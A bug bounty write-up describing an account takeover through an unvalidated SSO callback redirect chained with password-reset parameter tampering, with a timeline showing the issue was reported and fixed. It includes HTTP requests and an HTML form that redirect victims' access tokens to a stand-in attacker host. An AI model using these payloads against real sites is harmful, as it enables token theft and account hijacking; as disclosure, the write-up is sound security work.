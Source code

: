 ```yaml
---
layout: post
title: From Unvalidated Redirect and Parameter Tampering to Account Takeover
excerpt: "In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way."
tags: [bug hunting, hacking, unvalidated redirect, parameter tampering, account takeover]
categories: [bug hunting]
comments: true
image:
  feature: 5ee3bc3a3226da3dc1a3f88671451018.png
---
```



بسم الله الرحمن الرحيم

In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way.

>Because this is a Private Program, all Endpoint names, parameters, and part of the information displayed here is not the real name. This was made to give readers an idea to make it easier to understand the contents of this paper.

Some time ago, I did a Bug Hunting activity on a website based application. The site has several subdomains, each of which has different functions. This website uses SSO as an authentication scheme to make it easier for users to access each of the existing subdomains.

**I. Unvalidated Redirect**

When accessing different subdomains, there is a `Login Button` which when the user clicks, the user will send a request like the following:

```
POST /ssoLogin HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=login&app=app.name&callback=https://app.redacted.com/callback
```

Then the user will be directed to the subdomain URL along with access token on it.

Example:

```
https://app.redacted.com/callback?token=uaJfJi8hlNFCPSiKmjWO
```

This request can be manipulated by changing the value of the `callback` parameter to `app.redacted.com.attacker.com.` The attacker can steal user tokens by diverting callbacks to websites controlled by the attacker and creating simple malicious HTML like this:

```html
<html>
	<body>
		<form method="POST" action="https://redacted.com/ssoLogin">
			<input type="hidden" name="action" value="login"/>
			<input type="hidden" name="app" value="app.name"/>
			<input type="hidden" name="callback" value="https://app.redacted.com.attacker.com/callback"/>
			<input type="submit" value="Submit">
		</form>
	</body>
<html>
```

Sending `malicious links` to victims is boring, so I tried to find another way to trigger the request.

**II. Parameter Tampering**

After browsing through some of the features of the application, I found something interesting about the password reset function. When the user resets the password, then the user will be asked to enter his email address, but when making an intercept request, several other parameters are sent, not just email.

```
POST /resetPassword HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=resetpass&app=null&callback=null
```

There are similar parameters that are sent when logging into another subdomain when using SSO, it's `app` and `callback`.

So I tried to change the value the same as the previous request:

```
app=app.name&callback=https://app.redacted.com.attacker.com/callback
```

Surprisingly, I received an email to request a password with a URL like this:

```
https://redacted.com/resetPassword?token=uaJfJi8hlNFCPSiKmjWO&app=app.name&callback=https://app.redacted.com.attacker.com/callback
```

After entering a new password, the user will automatically be redirected to the login process along with the parameters listed in the URL. Of course, because the `callback` parameter has been manipulated, the user will be directed to the attacker's website along with its access token.

Attack Flow:

<img width="800px" alt="Attack Flow" src="/assets/ba62970936fbee1b8f84b6fd8dc9fb24.png">

Attacker will receive a request on his server with user's token on it.

<img width="800px" alt="Attacker's Side" src="/assets/f3abb86bd34cf4d52698f14c0da1dc60.jpg">

I report this issue through Bugcrowd.

```
Timeline:

2019-10-17: Report Sent
2019-10-17: Report Triaged
2019-10-25: $4,500 Bounty Awarded
2020-03-03: Fixed
```

